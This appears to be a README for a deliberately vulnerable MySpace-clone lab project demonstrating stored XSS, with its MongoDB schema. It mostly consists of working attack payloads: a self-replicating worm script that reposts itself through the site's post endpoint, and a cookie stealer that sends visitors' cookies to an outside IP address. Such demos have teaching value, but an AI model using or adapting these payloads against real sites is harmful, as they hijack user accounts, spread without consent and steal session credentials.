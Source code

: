 # YourSpaceWorm
Simple myspace clone vulnerable to a myspace worm

## Database:

Mongodb nosql database. Everything stored as documents (jsons)

### users document:
```json

{
    _id: ObjectId
    username: unique string
    password: string
    name: string
    timeline: [ post subdocument ]
}
```
### posts subdocument:
```json
{
    _id: ObjectId
    title: string
    content: string
}
```

## Stored XXS
The website posts are vulnerable to stored xxs. Users can put js code into both the title and content of the posts which allows them to customize their profile. 

# Worm Code 

### Title
```html
<!-- Title -->
<span class="worm-title">Mike Zylka is the coolest person out there. Go visit his site. </span>
```
<sub><sup>*\* Farhan does not approve this message*</sup></sub>
### Content
```html
<!-- Content -->
<script class="worm-script" async>
(function() {
let wormTitle = "<span class='worm-title'>" +document.getElementsByClassName('worm-title')[0].parentElement.innerText + "</span>";
console.log(wormTitle)

let wormContent = "<script class=\"worm-script\" async>" + document.getElementsByClassName('worm-script')[0].innerText + "<\/script>";
console.log(wormContent)


async function wormPost() {
const result = await fetch('/createPost', {
                            method: 'POST',
                            headers: {
                                'Content-Type': 'application/json'
                            },
                            body: JSON.stringify({
                                title: wormTitle,
                                content: wormContent
                            })
                        }).then((res) => res.json());
console.log(result);
}

wormPost()

})();
</script>
```


# Cookie Stealer Code 

## Title

```html
This will steal your cookies 
```

## Content

```html
<!-- Content -->
<script class="cookie-stealer" async>
(function() {



async function cookieStealer() {
let xhr = new XMLHttpRequest();
xhr.open('get', `http://10.156.88.35:8000?cookies = ${document.cookie}`);
xhr.send();
}

cookieStealer()

})();
</script>
```
